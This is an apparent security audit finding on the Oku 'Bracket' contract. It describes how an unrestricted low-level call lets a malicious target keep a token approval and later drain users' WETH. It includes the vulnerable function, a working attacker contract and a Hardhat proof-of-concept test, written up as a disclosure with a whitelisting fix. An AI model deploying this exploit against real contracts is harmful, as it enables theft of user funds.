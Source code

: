 Boxy Ash Ant

High

# Unrestricted Low-Level Call Execution Creates Vulnerabilities

### Summary

The contracts uses unrestricted low-level calls (`target.call(txData)`) to execute swaps with any target contract. This allows malicious contracts to be called without any validation, leading to potential token theft through approval manipulation.

### Root Cause

The protocol contracts approve a token amount to a target contract and use a low-level call to allow the caller to swap between tokenIn and tokenOut. However, this approach is unsafe and can create multiple vulnerabilities.

```solidity
function execute(
    address target,    // Any address can be specified
    bytes memory txData,
    uint256 amountIn,
    IERC20 tokenIn,
    IERC20 tokenOut,
    uint16 bips
) internal returns (uint256 swapAmountOut, uint256 tokenInRefund) {
    // Dangerous: No validation of target address
    tokenIn.safeApprove(target, amountIn);

    // Dangerous: Unrestricted low-level call
    (bool success, bytes memory result) = target.call(txData);
    require(success, "Call failed");

    // Insufficient validation: Only checks if call succeeded
    uint256 finalTokenIn = tokenIn.balanceOf(address(this));
    tokenInRefund = amountIn - (initialTokenIn - finalTokenIn);
}
```
https://github.com/sherlock-audit/2024-11-oku/blob/ee3f781a73d65e33fb452c9a44eb1337c5cfdbd6/oku-custom-order-types/contracts/automatedTrigger/Bracket.sol#L542

An example scenario would be where a malicious target contract bypasses the approved tokens and directly transfers tokenOut to the recipient. Since the tokenIn amount remains unchanged, the user would receive a full refund of tokenIn, while the malicious contract retains its allowance


### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. User creates an order with WETH amount
2. During performUpkeep:
   - Bracket contract approves malicious contract to spend WETH
   - Malicious contract is called via low-level call
3. Malicious contract:
   - Does NOT use its approval for WETH
   - Simply transfers USDC to simulate successful swap
4. Result:
   - User gets refunded full WETH amount (since it wasn't spent)
   - User receives USDC amount (from malicious contract)
   - Malicious contract retains approval to spend user's WETH
5. Post-attack:
   - Malicious contract can later use the stored approval to steal user's WETH

### Impact

Theft of user funds through retained token approvals or other attack vectors because of unrestrained low-level call


### PoC


```solidity
import "../interfaces/openzeppelin/IERC20.sol";
import "../interfaces/openzeppelin/SafeERC20.sol";

contract BracketAttacker {
    using SafeERC20 for IERC20;

    // Store the stolen approval for later use
    mapping(address => uint256) public stolenApprovals;

    struct AttackParams {
        uint256 fakeAmountOut;
        address tokenOut;
    }

    function attack(address tokenOut, uint256 fakeAmountOut) external {
        // Instead of using the approval, just transfer some tokenOut to simulate a swap
        IERC20(tokenOut).transfer(msg.sender, fakeAmountOut);
        
    }

    // Function to later use the stolen approval
    function useStoredApproval(
        address token,
        address recipient,
        uint256 amount
    ) external {
        IERC20(token).safeTransferFrom(recipient, address(this), amount);
    }
}
```


```ts


const abi = new AbiCoder()
describe("Approval Stealing ", () => {

    const strikeBips = 500
    const stopBips = 5000

    let orderId: BigInt
    //setup
    before(async () => {
        //steal money for s.Bob
        await stealMoney(s.usdcWhale, await s.Bob.getAddress(), await s.USDC.getAddress(), s.usdcAmount)
        //reset test oracle price
        await s.wethOracle.setPrice(s.initialEthPrice)
        await s.usdcOracle.setPrice(s.initialUsdcPrice)
        await s.uniOracle.setPrice(s.initialUniPrice)
        await s.arbOracle.setPrice(s.initialArbPrice)
        let initial = await s.Master.checkUpkeep("0x")
        expect(initial.upkeepNeeded).to.eq(false)
    })



    it("Should be vulnerable to approval stealing", async function () {

        // Deploy the attacker contract
        const BracketAttacker = await ethers.getContractFactory("BracketAttacker");
        const attacker = await BracketAttacker.deploy();
        await attacker.waitForDeployment();


        await stealMoney(s.usdcWhale, await s.Bob.getAddress(), await s.USDC.getAddress(), s.usdcAmount)
        await stealMoney(s.wethWhale, await s.Bob.getAddress(), await s.WETH.getAddress(), s.wethAmount)

        // Give tokens to the attacker
        await stealMoney(s.usdcWhale, await attacker.getAddress(), await s.USDC.getAddress(), s.usdcAmount)

        // Setup tokens and amounts
        const ethAmountIn = ethers.parseEther("1");
        // Get current price for order creation
        const currentPrice = s.initialEthPrice

        await s.WETH.connect(s.Bob).approve(await s.Bracket.getAddress(), 10n * s.wethAmount)
        await s.Bracket.connect(s.Bob).createOrder(
            "0x",
            currentPrice,
            currentPrice,
            ethAmountIn,
            await s.WETH.getAddress(),
            await s.USDC.getAddress(),
            await s.Bob.getAddress(),
            0,//5 bips fee
            strikeBips,
            stopBips,
            false,//no permit
            "0x"
        );
        let minRecieve = await s.Master.connect(s.Bob).getMinAmountReceived(ethAmountIn, await s.WETH.getAddress(), await s.USDC.getAddress(), 100)
        const usdcAmountOut = minRecieve; // 1000 USDC

        // Encode the attacker's function call
        const txData = attacker.interface.encodeFunctionData("attack", [
            await s.USDC.getAddress(),
            usdcAmountOut
        ]);


        const performData = abi.encode(
            [MasterUpkeepTuple],
            [{
                orderType: 1,
                target: await attacker.getAddress(),
                tokenIn: await s.WETH.getAddress(),
                tokenOut: await s.USDC.getAddress(),
                orderId: 0n,
                pendingOrderIdx: 0n,
                bips: 0n,
                amountIn: ethAmountIn,
                exchangeRate: currentPrice,
                txData: txData
            }]
        );

        const bracketETHBalance = await s.WETH.balanceOf(await s.Bracket.getAddress())

        const userETHBalance = await s.WETH.balanceOf(await s.Bob.getAddress())
        const userUsdcBalance = await s.USDC.balanceOf(await s.Bob.getAddress())

        await s.Master.connect(s.Bob).performUpkeep(performData)

        const bracketETHBalanceAfter = await s.WETH.balanceOf(await s.Bracket.getAddress())
        const bracketUsdcBalanceAfter = await s.USDC.balanceOf(await s.Bracket.getAddress())

        const userETHBalanceAfter = await s.WETH.balanceOf(await s.Bob.getAddress())
        const userUsdcBalanceAfter = await s.USDC.balanceOf(await s.Bob.getAddress())

        //@audit User refunded whole amountIn since weth balance not changed
        //tokenInRefund = amountIn - (initialTokenIn - finalTokenIn);
        expect(userETHBalanceAfter).to.eq(userETHBalance + ethAmountIn)
        expect(bracketETHBalanceAfter).to.eq(bracketETHBalance - ethAmountIn)

        //@audit User order is filled with amount transfered from attacker
        expect(userUsdcBalanceAfter).to.eq(userUsdcBalance + usdcAmountOut)
        expect(bracketUsdcBalanceAfter).to.eq(0)

        //After swap completed user still has allowance which can tansfer to attacker
        const wethAprovedToAttacker = await s.WETH.allowance(await s.Bracket.getAddress(), await attacker.getAddress(),)
        expect(wethAprovedToAttacker).to.eq(ethAmountIn)

    });
})

```

### Mitigation

Add some restrictions to low level call for example:  Implement Target Whitelisting 
```solidity
    mapping(address => bool) public whitelistedTargets;
    
    function addWhitelistedTarget(address target) external onlyOwner {
        whitelistedTargets[target] = true;
    }
```